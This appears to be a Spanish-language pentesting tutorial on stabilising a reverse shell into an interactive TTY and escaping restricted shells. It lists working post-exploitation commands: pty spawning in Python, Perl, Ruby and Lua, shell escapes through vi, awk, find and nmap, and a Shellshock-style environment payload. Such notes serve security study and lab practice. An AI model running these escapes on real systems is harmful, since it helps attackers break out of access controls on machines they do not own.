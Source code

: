 # 🖥️ Tratamiento de la TTY + Restricted Shell

---

## 📋 Índice

1. [❓ ¿Qué es la TTY?](#qué-es-la-tty)
2. [🤔 ¿Por qué se hace el tratamiento de la TTY?](#por-qué-se-hace-el-tratamiento-de-la-tty)
3. [🔧 Formas de tratar la TTY](#formas-de-tratar-la-tty)
    - [⚙️ Método 1️⃣: `script /dev/null -c bash`](#método-1️⃣-script-devnull--c-bash)
    - [🛠️ Método 2️⃣: Python, Perl, Ruby, Lua, Vi, Nmap, etc.](#método-2️⃣-python-perl-ruby-lua-vi-nmap-etc)
4. [🔒 ¿Qué es una Restricted Shell?](#qué-es-una-restricted-shell)
5. [🚪 Cómo escapar de una Restricted Shell](#cómo-escapar-de-una-restricted-shell)
6. [✅ Resumen](#resumen)

---

## ❓ ¿Qué es la TTY?

Cuando logramos obtener una **reverse shell**, recibimos una **terminal mínima o limitada**.  
Esta terminal básica no tiene todas las capacidades de una terminal interactiva real (**TTY**).

👉 La **TTY (Teletype Terminal)** es la interfaz de entrada/salida entre el sistema y el usuario.

Al recibir una reverse shell, normalmente obtenemos una **pseudo-terminal** sin TTY completa.  
Por eso es necesario "tratarla" para convertirla en una shell más funcional.

---

## 🤔 ¿Por qué se hace el tratamiento de la TTY?

El objetivo es lograr una **TTY interactiva**, es decir, convertir una shell limitada en una shell completa que nos permita:

- ✅ Usar comandos avanzados (`su`, `nano`, `top`, etc.)
- ✅ Manejar atajos de teclado (`Ctrl+C`, `Ctrl+Z`, `Ctrl+D`)
- ✅ Mejorar la estabilidad y experiencia de la shell
- ✅ Tener autocompletado, edición de línea, historial de comandos, etc.

---

## 🔧 Formas de tratar la TTY

---

### ⚙️ Método 1️⃣: `script /dev/null -c bash`

Este método funciona en sistemas donde está disponible el comando `script`:

```bash
script /dev/null -c bash
```

Luego:

```bash
# Suspender la shell temporalmente
Ctrl + Z

# Ajustar la terminal actual
stty raw -echo; fg

# Resetear la terminal
reset xterm

# Exportar variables para mejorar compatibilidad
export SHELL=bash
export TERM=xterm
```
Adicionalmente habrá que ajustar las filas y columnas, abrimos una terminal aparte y hacemos:
```bash
stty -a
```
eso nos dará una salida dónde buscaremos:
```
 rows 54; columns 120;
```
esas son las dimensiones de nuestra terminal y las exportaremos a la nueva tty que hemos creado así:
```
stty rows 54 columns 129
```

---

### 🛠️ Método 2️⃣: Python, Perl, Ruby, Lua, Vi, Nmap, etc.

Si `script` no funciona, puedes intentar cualquiera de estos métodos alternativos:

```bash
# Python (muy común)
python -c 'import pty; pty.spawn("/bin/bash")'

# Python 3
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Bash interactivo
echo os.system('/bin/bash')
/bin/sh -i

# Otro uso de script
script -qc /bin/bash /dev/null

# Perl
perl -e 'exec "/bin/sh";'

# Ruby
ruby -e 'exec "/bin/sh"'

# Lua
lua -e 'os.execute("/bin/sh")'

# IRB (Ruby shell)
irb
exec "/bin/sh"

# Vi (si puedes abrirlo)
vi
# Dentro de vi:
:!bash
# o
:set shell=/bin/bash | :shell

# Nmap (si tienes --interactive)
nmap --interactive
nmap> !sh
```

---

# 🔒 Restricted Shell y cómo escapar de ella (con ejemplos)

Una **restricted shell** (shell restringida) es un entorno limitado de línea de comandos que restringe funciones básicas para evitar que el usuario pueda salir del entorno controlado o ejecutar comandos peligrosos.

Por ejemplo, en una restricted shell comúnmente:

- 🚫 No puedes usar `cd` para cambiar de directorio.  
- 🚫 No puedes usar barras `/` en comandos para evitar ejecutar shells externas.  
- 🚫 No puedes redirigir la salida con `>`, `>>` o la entrada con `<`.  
- 🚫 No puedes modificar variables de entorno.  
- 🚫 Estás limitado a ciertos comandos permitidos.  

Estas restricciones buscan limitar el control del usuario para proteger el sistema.

---

## 🚪 Cómo escapar de una restricted shell

### 1️⃣ Invocar otra shell directamente

Si tienes acceso a shells comunes, intenta ejecutar alguna de estas:

```bash
/bin/bash
/bin/sh
/bin/zsh
/bin/ksh
```

---

### 2️⃣ Usar comandos que ejecutan shell internamente

Ejemplos de comandos que pueden invocar una shell dentro de ellos:

```bash
awk 'BEGIN {system("/bin/sh")}'
perl -e 'exec "/bin/sh";'
python -c 'import os; os.system("/bin/sh")'
```

---

### 3️⃣ Crear y ejecutar scripts temporales

Si tienes permisos para crear archivos, puedes hacer:

```bash
echo 'bash' > /tmp/shell.sh
chmod +x /tmp/shell.sh
/tmp/shell.sh
```

---

### 4️⃣ Explorar variables de entorno y funciones shell

En algunas configuraciones vulnerables:

```bash
env x='() { :;}; /bin/bash' bash -c "echo escaped"
```

---

### 5️⃣ Usar editores para ejecutar comandos

En `vim` o `vi`, escribe:

```bash
:! /bin/sh
```

En `nano`, presiona:

```text
Ctrl + R
Ctrl + X
```

---

### 6️⃣ Usar otros comandos con capacidad para ejecutar comandos arbitrarios

Por ejemplo:

```bash
find . -exec /bin/sh \;
ruby -e 'exec "/bin/sh"'
```

---

## ✅ Resumen

- Las **restricted shells** bloquean comandos comunes como `cd`, redirecciones (`>`, `<`), ejecución de comandos externos con `/`, etc.  
- Para escapar:
  - Invoca shells comunes o usa comandos que ejecutan shells internamente.
  - Usa editores o comandos que permiten ejecutar shells.
  - Explora vulnerabilidades en variables de entorno.

---





